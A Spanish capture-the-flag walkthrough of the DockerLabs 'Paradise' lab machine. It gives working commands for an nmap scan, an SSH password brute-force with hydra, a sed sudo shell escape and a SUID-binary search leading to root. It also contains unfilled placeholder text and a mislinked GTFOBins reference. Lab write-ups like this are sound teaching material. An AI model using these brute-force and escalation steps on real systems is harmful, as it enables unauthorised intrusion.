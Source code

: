 ```yaml
---
title: Paradise - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | kaikoperez        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/3e8b1d91-4b63-4e39-b87e-d751854957d9)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
- `139` (Pon que servicio es )
- `445` (Pon que servicio es)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80,139,445 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/7795b7c4-9a86-4a4c-a117-dc96d1c390db)

# Exploración Web

Vamos a empezar accediendo al puerto `80`.

Vemos un pagina la cual contiene dos botones en lo que accedemos a otros apartados de la pagina.

![image](https://github.com/user-attachments/assets/620ea296-e2fc-420b-b0ce-7368bbabde81)

En el apartado de `galery` , vemo que hay al final vemos algo encriptado en `base64`.

![image](https://github.com/user-attachments/assets/2c915674-a9c6-4f21-a578-d06b72f0b1f0)

Ahora vamos a descifrar lo que pone.
```bash
echo 'ZXN0b2VzdW5zZWNyZXRvCg==' | base64 -d
```
![image](https://github.com/user-attachments/assets/ea3460a6-fa51-4f4c-a431-d3fbffe394e5)

Podria ser desde una contraseña, hasta un directorio por lo que vamos a probar si es un directorio.

![image](https://github.com/user-attachments/assets/30da2960-344b-468c-8b7d-bd0ee664c48c)

Por lo que se ve es un directorio oculto que contiene un archivo llamado `mensaje_para_lucas.txt`.

![image](https://github.com/user-attachments/assets/04c48046-3617-4554-aafe-f3378d7f3c8a)

El mensaje le comunica a `lucas` que cambie su contraseña porque es `debil` y la podrias sacar a tarves de `fuerza bruta` asi que ya sabemos que hacer.


## Fuerza Bruta
Usaremos `hydra` para sacar la contraseña.

```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt -t 64 -VIf ssh://172.17.0.2
```

![image](https://github.com/user-attachments/assets/c34425e5-3b4a-4dd3-befb-08bf7f722484)

Ya tenemos la contraseña de lucas que es `chocolate`.

# Intrucion

Vamos a entrar por ssh , y ver como podemos escalar privilegios.

```bash
ssh lucas@172.17.0.2 
```
![image](https://github.com/user-attachments/assets/22a8a2cc-a204-40a5-add2-fb27034cd2f3)

Lo primero que haremos sera generarnos una shell.

```bash
script /dev/null -c bash
```

# Escalada de privilegios

## Andy

Al ejecutar `sudo -l`, vemos que podemos ejecutar `sed` como `ansy`. Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo -u andy sed -n '1e exec sh 1>&0' /etc/hosts
```

Ya somo andy volvemos a generar una shell y volvemos a ver que podemos hacer.

Como no tenemos la contraseña de andy no podemos usar sudo -l, pero podemos probar si hay algun binario que podamos ejecutar ya que tenia un permiso especial:

```bash
find / -perm -4000 2>/dev/null
```

![image](https://github.com/user-attachments/assets/fed510d2-a825-4526-9a1d-a36263f538c9)


Ejecutamos el primero .

```bash
/usr/local/bin/privileged_exec
```

Ya somos root.

![image](https://github.com/user-attachments/assets/10a83925-6af5-4dd1-9d36-e1b84ed27bc6)






